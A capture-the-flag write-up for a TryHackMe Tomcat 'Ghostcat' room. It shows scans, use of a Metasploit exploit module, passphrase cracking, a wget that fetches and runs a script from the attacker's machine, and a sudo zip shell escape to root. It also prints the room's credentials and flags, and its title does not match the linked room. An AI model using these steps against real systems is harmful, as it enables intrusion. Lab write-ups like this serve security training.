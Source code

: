 # [Agent T](https://tryhackme.com/room/tomghost)

```
export IP=10.10.154.147
```

---

## Task 1
1. Compromise this machine and obtain user.txt.

	a. Nmap scan (`nmap -sV -sC -oN nmap/initial $IP`):
	```
	PORT     STATE SERVICE    VERSION
	22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
	|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
	|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
	53/tcp   open  tcpwrapped
	8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
	| ajp-methods: 
	|_  Supported methods: GET HEAD POST OPTIONS
	8080/tcp open  http       Apache Tomcat 9.0.30
	|_http-favicon: Apache Tomcat
	|_http-title: Apache Tomcat/9.0.30
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	```

	b. Went to `http://$IP:8080` in the browser and found that it was running the default `Apache Tomcat/9.0.30` web server.

	c. Gobuster scan (`gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`):
	```
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://10.10.3.208:8080
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.1.0
	[+] Timeout:                 10s
	===============================================================
	2022/09/25 13:07:21 Starting gobuster in directory enumeration mode
	===============================================================
	/docs                 (Status: 302) [Size: 0] [--> /docs/]
	/examples             (Status: 302) [Size: 0] [--> /examples/]
	/manager              (Status: 302) [Size: 0] [--> /manager/] 
	/http%3A%2F%2Fwww     (Status: 400) [Size: 804]               
	Progress: 57320 / 87665 (65.39%)                             ^C
	[!] Keyboard interrupt detected, terminating.
	                                                              
	===============================================================
	2022/09/25 13:16:00 Finished
	===============================================================

	```

	d. Looked up if there were any exploits for `Apache Tomcat/9.0.30`:
	```
	https://www.exploit-db.com/exploits/49039
	```

	e. Used `metasploit` to exploit the machine using the `admin/http/tomcat_ghostcat` module.
	
	f. Found a username and password for SSH:
	```
	skyfuck:8730281lkjlkjdqlksalks
	```

	g. Found the user.txt flag @ `/home/merlin/user.txt`:
	```
	THM{GhostCat_1s_so_cr4sy}
	```


2. Escalate prvileges and obtain root.txt.

	a. Started by getting `linpeas.sh` onto the target machine.
	```
	# On local machine,
	# Navigated to /usr/share/enumeration, where linpeas.sh is saved:
	cd /usr/share/enumeration
	# Started a Python3 webserver
	python3 -m http.server

	# On the target machine 
	# Wget the linpeas.sh file.
	wget http://10.6.53.245:8000/linpeas.sh
	# Make it executable (-x wasn't working)
	chmod 777 linpeas.sh
	# Execute linpeas.sh
	./linpeas.sh
	```

	b. Found a potential privilege escalation:
	```
	# https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
	/home/skyfuck/bin:/home/skyfuck/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
	New path exported: /home/skyfuck/bin:/home/skyfuck/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
	```

	c. Turns out I didn't need linpeas at all. Instead I had to take the `tryhackme.asc` and `credential.pgp` files and decrypt them.

	d. Downloaded the files onto my local machine. 
	```	
	# On local machine
	scp skyfuck@$IP:/home/skyfuck/* .
	```

	e. Use `gpg2john` to create the hash:
	```
	gpg2john tryhackme.asc > hash
	```

	f. Attempt to crack the secret phrase using `john` (i.e., JohnTheRipper):
	```
	john --wordlist=/usr/share/wordlists/rockyou.txt hash
	```

	g. Got the secret phrase: `alexandru`.

	h. Back in the target machine, I attempted to decrypt the `credential.gpg` using the found secret phrase.

	```
	# Have to first import the .asc key file
	gpg --import tryhackme.asc

	# Then we can decrypt
	gpg --decrypt credential.gpg
		Enter secret phrase: alexandru
	```

	i. Found the following username and password:
	```
	username: merlin
	password: asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
	```

	j. Log into the target machine using the new username and password:
	```
	ssh merlin@$IP
	```

	k. Check any sudo permissions:
	```
	sudo -l

	# Output:
	Matching Defaults entries for merlin on ubuntu:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User merlin may run the following commands on ubuntu:
	    (root : root) NOPASSWD: /usr/bin/zip
	```

	l. Went to GTFOBins and found a privesc for the `zip` command:
	```
	# https://gtfobins.github.io/gtfobins/zip/#sudo
	TF=$(mktemp -u)
	sudo zip $TF /etc/hosts -T -TT 'sh #'
	rm $TF
	```

	m. Got root access! Found the root.txt flag @ `/root/root.txt`:
	```
	THM{Z1P_1S_FAKE}
	```

